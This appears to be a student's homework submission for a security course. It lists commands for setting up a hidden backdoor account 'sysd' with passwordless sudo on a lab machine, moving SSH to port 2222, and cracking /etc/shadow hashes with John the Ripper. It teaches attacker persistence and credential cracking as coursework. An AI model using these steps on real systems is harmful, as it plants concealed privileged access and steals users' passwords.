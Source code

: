 ## Submission for Unit 6 Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- `sudo adduser --no-create-home sysd`

Give your secret user a password.
- `sudo passwd sysd`


Give your secret user a system UID < 1000.
- `sudo usermod -u 14 sysd`


Give your secret user the same GID
- `sudo groupmod -g 14 sysd`


Give your secret user full sudo access without the need for a password.
- `sudo usermod -a -G sudo sysd`
- `sudo visudo`

Test that sudo access works without your password

```bash
sudo -n true
```

## Allow ssh access over port 2222.

Command to edit the `sshd_config` file:

```bash
sudo nano /etc/ssh/sshd_config
change Port 22 to Port 2222
```

Command to restart the ssh service:
- `service sshd restart` 


Exit the root accout:
- `exit` 

SSH to the target machine using your `sysd` account and port 2222:
- `ssh sysd@192.168.6.105 -p 2222`


Use sudo to switch to the root user
- `sudo su -`
 
## Crack _all_ the passwords

Ssh back to the system using your sysd account
- `ssh sysd@192.168.6.105 -p 2222`


- Use John to crack the entire /etc/shadow file
    - `
    sudo apt install john
    cd /etc 
    /etc# sudo grep john shadow > shadow1.txt
    /etc# sudo john shadow1.txt 
    /etc# sudo john -show shadow1.txt
    `


